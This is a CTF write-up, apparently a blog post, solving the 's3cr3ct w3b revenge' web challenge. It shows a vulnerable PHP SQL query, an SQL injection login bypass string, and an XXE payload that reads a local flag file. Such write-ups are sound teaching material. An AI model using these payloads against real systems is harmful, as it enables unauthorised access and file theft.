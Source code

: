 +++
date = '2025-10-27T09:20:51+07:00'
title = 'QnQSec CTF - s3cr3ct w3b revenge Writeup'
tags = ['QnQSec CTF 2025', 'CTFs']
description = 'I have hidden secret in this web can you find out the secret?'
draft = false

[cover]
  image = '/images/posts/qnqsec-cover.jpg'
  alt = 'QnQSec CTF - s3cr3ct w3b Revenge'
  caption = 'QnQSec CTF - s3cr3ct w3b Revenge'
  relative = false
+++

> **Room / Challenge:** s3cr3ct_w3b revenge (Web)

---

## Metadata

-   **Author:** `jameskaois`
-   **CTF:** QnQSec CTF 2025
-   **Challenge:** s3cr3ct_w3b revenge (web)
-   **Target / URL:** `http://161.97.155.116:8088/`
-   **Points:** `50`
-   **Date:** `20-10-2025`

---

## Goal

We have to get the flag by leveraging XML viewer.

## My Solution

Examine the [source code](./s3cr3ct_w3b_revenge.zip), the source code is written in PHP however examine the Dockerfile, unlike s3cre3ct_web the DockerFile now is different:

```
FROM php:8.2-apache


RUN docker-php-ext-install pdo pdo_mysql

RUN a2enmod rewrite

COPY public/ /var/www/html/
RUN mkdir -p /var/flags && chown www-data:www-data /var/flags
COPY flag.txt /var/flags/flag.txt

WORKDIR /var/www/html/

EXPOSE 80
```

The flag.txt file is copied to `/var/flags/flag.txt` so we cannot access it like the s3cre3ct_web challenge anymore.

First we have to login as admin to use XML functionality, the `/login.php` route use this query:

```php
$query = "SELECT * FROM users WHERE username = '$username' AND password = '$password'";
```

Easy SQL Injection can be used to logged in:

```
Username: ' OR '1'='1' --
Password: anything
```

After that, we can create an `exploit.xml` to upload that and get the `flag.txt` content in `/var/flags/flag.txt`:

```xml
<?xml version="1.0"?>
<!DOCTYPE r [
  <!ENTITY xxe SYSTEM "file:///var/flags/flag.txt">
]>
<r>&xxe;</r>
```
